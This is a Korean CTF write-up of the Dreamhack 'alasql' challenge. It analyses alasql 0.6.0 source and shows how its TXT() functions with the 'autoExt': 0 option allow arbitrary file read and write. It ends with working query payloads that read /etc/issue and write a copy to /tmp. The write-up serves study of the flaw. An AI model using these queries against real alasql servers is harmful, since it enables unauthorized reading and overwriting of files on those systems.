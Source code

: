 ```yaml
---
layout: post
title:  "AlaSQL"
author: "choiys"
comments: true
tags: [write-up, web]
---
```


# AlaSQL

> **2020.05
라온화이트햇 핵심연구팀 최용선
hcy3bkj@gmail.com**

## 0. 개요

dreamhack(https://dreamhack.io)의 alasql 문제 풀이 과정 중 분석한 alasql 문제의 취약점에 대한 문서입니다. 현재 알아낸 취약점은 file read/write 입니다.

## 1. AlaSQL

AlaSQL은 자바스크립트를 이용하여 Web Browser, Node.js에서 동작하도록 구현한 NoSQL의 일종입니다. Excel, LocalStorage, IndexedDB에서 데이터를 import/export 할 수 있는 기능을 가지고 있습니다. 또한, mysql, oracle, sqlite 등의 traditional rdbms의 SQL 구문을 대부분 사용할 수 있습니다.

alasql 문제는 npm을 통해 설치할 수 있는 alasql@0.6.0을 문제 서버에서 그대로 사용하고 있습니다. 따라서 alasql 0.6.0 버전에 존재하는 취약점을 이용하여 /flag 파일을 실행시켜 플래그를 얻어내야합니다.

문제 서버에서는 /usr/local/lib/node_modules/alasql/bin/alaserver.js가 서비스되고 있습니다.

```java
#!/usr/bin/env node
//
// alaserver.js = Alasql Server
// Date: 25.11.2014
// (c) 2014, Andrey Gershun
//

var alasql = require('alasql');
var http = require('http');
var url = require('url');

var port = (process.argv[2] || 1337)|0;
if(!port) {
	throw new Error('Wrong port number '+process.argv[3]);
}

http.createServer(function (req, res) {
	var sql = decodeURI(url.parse(req.url).search).substr(1);
	var a = '';
	try {
		a = alasql(sql);
	} catch(err) {
		a = err.toString();
	};
  	res.writeHead(200, {'Content-Type': 'application/json'});
  	res.end(JSON.stringify(a));
}).listen(port, '127.0.0.1');

console.log('Server running at http://127.0.0.1:'+port+'/');
```

alaserver.js를 살펴보면 `decodeURI(url.parse(req.url).search).substr(1)` 를 이용하여 쿼리스트링을 받고, alasql 서비스에 파라미터로 전달합니다.

alasql은 Cordova, Meteor, Node 베이스에서 돌아갈 경우 alasql.fs.js, 그 외는 alasql.js를 호출합니다. 두 서비스는 서버 타입에 따라 접근 방식만 다르고, 기능상 동일합니다.

alasql.js에서 쿼리스트링을 SQL 구문으로 받아 자체 parser를 통해 처리한 후, 결과를 다음과 같이 json으로 반환해줍니다.

![/assets/bca819bd-cd10-4ab9-b157-f2326d5fc636/bc2cca8c-07af-4d8a-b729-5484492b2abb.png](/assets/bca819bd-cd10-4ab9-b157-f2326d5fc636/bc2cca8c-07af-4d8a-b729-5484492b2abb.png)

## 2. 취약점

alasql에서는 `mysql`의 `load_file`, `into outfile` 과 유사한 기능이 존재합니다.

```jsx
// ...

alasql.into.TXT = function(filename, opts, data, columns, cb) {
	// If columns is empty
	if (columns.length === 0 && data.length > 0) {
		columns = Object.keys(data[0]).map(function(columnid) {
			return {columnid: columnid};
		});
	}
	// If one parameter
	if (typeof filename === 'object') {
		opts = filename;
		filename = undefined;
	}

	var res = data.length;
	var s = '';
	if (data.length > 0) {
		var key = columns[0].columnid;
		s += data
			.map(function(d) {
				return d[key];
			})
			.join('\n');
	}

	//	 } else {
	//		if(utils.isNode) {
	//			process.stdout.write(s);
	//		} else {

	//		};
	//	 }
	filename = alasql.utils.autoExtFilename(filename, 'txt', opts);
	res = alasql.utils.saveFile(filename, s);
	if (cb) {
		res = cb(res);
	}
	return res;
};

// ...

alasql.from.TXT = function(filename, opts, cb, idx, query) {
	var res;
	filename = alasql.utils.autoExtFilename(filename, 'txt', opts);
	alasql.utils.loadFile(filename, !!cb, function(data) {
		res = data.split(/\r?\n/);

		// Remove last line if empty
		if (res[res.length - 1] === '') {
			res.pop();
		}
		for (var i = 0, ilen = res.length; i < ilen; i++) {
			// Please avoid '===' here
			if (res[i] == +res[i]) {
				// eslint:ignore
				// jshint ignore:line
				res[i] = +res[i];
			}
			res[i] = [res[i]];
		}
		if (cb) {
			res = cb(res, idx, query);
		}
	});
	return res;
};

// ...

utils.autoExtFilename = function(filename, ext, config) {
	config = config || {};
	if (
		typeof filename !== 'string' ||
		filename.match(/^[A-z]+:\/\/|\n|\..{2,4}$/) ||
		config.autoExt === 0 ||
		config.autoExt === false
	) {
		return filename;
	}
	return filename + '.' + ext;
};

// ...
```

`alasql.into.TXT` 와 `alasql.from.TXT` 를 이용하여 권한 있는 파일에 대해 file write/read를 할 수 있습니다.

하지만 `autoExtFilename` 함수에서 자동으로 확장자가 붙기 때문에 이를 걷어내기 위해 `config.autoExt` 에 0을 넣어줍니다.

따라서 file read/write 쿼리는 아래와 같습니다.

```jsx
select * from TXT('/etc/issue', {'autoExt': 0})
select * into TXT('/tmp/testfile', {'autoExt': 0}) from TXT('/etc/issue', {'autoExt': 0})
```

하지만 alasql의 select 서브쿼리 처리 루틴이 전체 파싱 → from절 파싱 형태이기에 TXT로 뽑아온 결과가 제대로 뽑혀 나오지 않았습니다.

```jsx
// ...

alasql.from.GEXF = function(filename, opts, cb, idx, query) {
	var res;
	alasql('SEARCH FROM XML(' + filename + ')', [], function(data) {
		res = data;

		if (cb) res = cb(res);
	});
	return res;
};

// ...
```

GEXF 함수에서 볼 수 있는 search 기능을 이용하면 에러 없이 전체 결과를 얻어낼 수 있습니다.

최종적인 file read/write 쿼리는 아래와 같습니다.

```jsx
search from TXT('/etc/issue', {'autoExt': 0})
select * into TXT('/tmp/testfile', {'autoExt': 0}) from TXT('/etc/issue', {'autoExt': 0})
```